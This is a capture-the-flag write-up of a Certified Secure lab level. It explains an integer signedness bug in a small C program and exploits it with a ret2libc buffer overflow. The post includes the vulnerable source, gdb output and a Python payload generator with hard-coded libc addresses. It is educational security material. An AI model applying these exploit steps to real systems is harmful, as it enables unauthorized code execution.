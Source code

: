 ![Logo](/assets/images/belts-purple.png)


In this post we'll continue with the second level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
Another buffer overflow, similar mitigatiopn techniques as we've seen in the previous level (non-executable stack), 
but this time we have another flaw, a little more subtle: _integer signedness error_.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8267
level2@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

0 packages can be updated.
0 updates are security updates.

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                    __  ___          __              
  / _ )(_)___ ___ _______ __/  |/  /___ ____ / /____ ______ __
 / _  / // _ | _ `/ __/ // / /|_/ // _ `(_-</ __/ -_) __/ // /
/____/_//_//_|_,_/_/  \_, /_/  /_/ \_,_/___/\__/\__/_/  \_, / 
                     /___/                             /___/  

             ___           __                   __ 
            / (_)___ __ __/ /____ ___ ___ ____ / /_
           / / // -_) // / __/ -_) _ | _ `/ _ | __/
          /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/ 
                                                   

```

Let's see what mitigation techniques we have now using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level2
```

There is no stack canary and the stack is **not** executable. As we've seen in the previous level, [ASLR is disabled](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) system-wise for this set of challenges.

## 1 - Vulnerability

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void head(int len, char *filename) {
	char buf[256];
	
	if (len > 255) {                         [1]
		printf("You are insane!\n");
		return;
	}

	int fp = open(filename, O_RDONLY);

	if (fp == 0) {                           [2]
		printf("Computer says no\n");
		return;
	}

	buf[read(fp, buf, len)] = 0;	         [3]
	close(fp);

	printf("%s\n", buf);
}

int main(int argc, char **argv) {
	if (argc < 2) {
		printf("Usage: %s <size>\n", argv[0]);
		return -1;
	}

	head(atoi(argv[1]), argv[2]);
	
	return 0;
}
```

First let's understand what is the purpose of this program and how it works. In this case it's pretty straight forward:
* Its first parameter represents a number of lines to be read from the filename specified in the second command line parameter.
* A first sanity check is implemented at **[1]**: if the length is greater than 255 bytes, the program will terminate.
* A second check at **[2]** after the _open_ call probably intends to terminate the program if file cannot be opened successfully.
* Finally,the _read_ call at **[3]** copies maximum _len_ characters into the buffer _buf_, whose size is 256 bytes, thus avoiding the overflow.

Now let's see if we can break it:
* Let's notice that the check at **[2]** is actually not effective because, according to its [man page](http://man7.org/linux/man-pages/man2/open.2.html), _open_ will return -1 in case of error, not 0. This means that the program will have unpredictable output for non-existent files.
* The check at **[1]** poses, however, a more serious risk: as we can see from the definition of the function, _len_ is actually a signed integer. But [read](https://linux.die.net/man/3/read) expects instead a **size_t** parameter. This means that passing any negative value will successfulyl bypass the check, overflow the buffer and everything beyond, including the return address from function _head_.

Although one might expect that a GCC compiler error would be generated in situations like this, it is not actually the case. Moreover, even eanbling _all warnings_ and _extra warnings_ doesn't produce any relevant message. These flags are actually misleading, since it is not possible (nor desirable!) to show _ALL_ compilation errors supported by GCC. See [here](https://stackoverflow.com/questions/11714827/how-to-turn-on-literally-all-of-gccs-warnings) why. That's why I was saying it is slighly more difficult to spot this class of vulnerabilities in practice. 

```bash
$ gcc  -m32 -fstack-protector level2.c -o level2       
$ gcc -Wall -Wextra -m32 -fstack-protector level2.c -o level2
$ 
```

The only way to get a warning for this kind of behaviour is to manually enable implicit sign conversions erros, using the **-Wsign-conversion** flag.

```
-Wsign-conversion
    Warn for implicit conversions that may change the sign of an integer value, like assigning a signed integer expression to an unsigned integer variable. An explicit cast silences the warning. In C, this option is enabled also by -Wconversion. 
```

```bash
$ gcc -Wsign-conversion -m32 -fstack-protector level2.c -o level2
level2.c: In function ‘head’:
level2.c:24:20: warning: conversion to ‘size_t {aka unsigned int}’ from ‘int’ may change the sign of the result [-Wsign-conversion]
  buf[read(fp, buf, len)] = 0; 
                    ^
```		    

## 2 - Exploit 

Given the previous finding, the exploitation is simple and very similar with [level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html). First we'll see what we need to control the EIP and then we'll introduce a payload as well.

### Controlling the execution flow
Although we know that **buf** is 256 bytes in size, we need to see the stack layout of the function **head** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![head stack](/assets/images/bm7-0.png)

So we need 256 + 12 + 4 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*272 + "BBBB"' > input
$ gdb -q ./level2

gdb-peda$ run -1 input
```
We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm7-1.png)

### Add ret2libc payload
In a very similar way with the previous level, we'll return from _head_ function to the system function, and place the argument in an environment variable. All the unchanged details omitted for space. The format of our payload is:

```
| PADDING (272 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

The python script below generates the payload according to this scheme:

```python
import struct                                                                                                      
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffd928-6      # Address of environment variable (/home/level2/victory)

payload = "A" * (256 + 12 + 4) + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ python /tmp/gen.py > /tmp/input
$ /levels/level2 -1 /tmp/input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp^�P��"��
   ___  _                      __  ___         __  
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   

Subject: Victory!

Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level3. If you want, you can log in
as level3 with password     [REDACTED]
```

That's it for now. It the [next level]() we'll look at a new calss of issues - command injection vulnerabilities.
